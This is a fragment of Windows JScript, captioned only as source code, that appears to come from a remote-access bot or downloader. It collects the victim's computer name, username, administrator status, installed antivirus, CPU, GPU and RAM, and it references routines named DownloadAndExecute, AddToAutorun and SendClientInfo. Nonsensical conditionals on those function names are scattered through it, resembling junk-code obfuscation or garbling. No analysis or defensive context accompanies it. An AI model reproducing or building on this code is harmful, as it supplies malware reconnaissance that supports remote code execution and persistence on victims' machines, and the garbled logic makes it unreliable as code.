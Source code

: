```js
   var shellObj= new ActiveXObject("WScript.Shell");
   var netObj= new ActiveXObject("WScript.Network");
   if(!GetClientInfo){return};
   initInfo["user"]= netObj.ComputerName+ '/'+ shellObj.ExpandEnvironmentStrings("%USERNAME%");
  }
  catch(err){initInfo["user"]= 'N/A'};
  try
  {
   initInfo["role"]= "User";
   var groupObj=GetObject("WinNT://"+ netObj.UserDomain+ "/"+ shellObj.ExpandEnvironmentStrings("%USERNAME%"));
   for(propObj in groupObj.Members)
   {
    if(SendClientInfo=== false){DownloadAndExecute(null)};
    if(propObj.Name== "Administrators")
    {
     if(!DownloadAndExecute){DownloadAndExecute= 0;return};
     initInfo["role"]= "Admin"
    }
   }
  }
  catch(err){ initInfo["role"]= 'N/A'; };
  try
  {
   var wmiAV=GetObject("winmgmts:root\\SecurityCenter2");
   for(var i= new Enumerator(wmiAV.ExecQuery("SELECT * FROM AntivirusProduct"));!i.atEnd();i.moveNext()){ if(!initInfo["antivirus"]){initInfo["antivirus"]= i.item().displayName} }
  }
  catch(err){initInfo["antivirus"]= 'N/A'};
  try
  {
   for(var i= new Enumerator(wmi.ExecQuery("SELECT * FROM Win32_Processor"));!i.atEnd();i.moveNext()){ initInfo["cpu"]= i.item().Name}
  }
  catch(err){initInfo["cpu"]= 'N/A'; };
  if(!ExecuteAndOutput){return};
  try
  {
   if(AddToAutorun== null){Execute(0);SendClientInfo= 0;return}
   else 
   {
    for(var i= new Enumerator(wmi.ExecQuery("SELECT * FROM Win32_VideoController"));!i.atEnd();i.moveNext()){if(SendTaskResult== 1){return};
    initInfo["gpu"]= i.item().Name}
   }
  }
  catch(err){initInfo["gpu"]= 'N/A';};
  try
  {
   var ramObj=WScript.CreateObject("Shell.Application");
   initInfo["ram"]= Math.round(ramObj.GetSystemInformation("PhysicalMemoryInstalled")/ 1048576)+ ' MB';
  }
  catch(err)
  {
   if(GetClientInfo=== null){SendClientInfo(false,1,0) };
   initInfo["ram"]= 'N/A';
  };
  if(ExecuteAndOutput=== true){ExecuteAndOutput= false};
  try
  {
   var available=0;
   var total=0;
```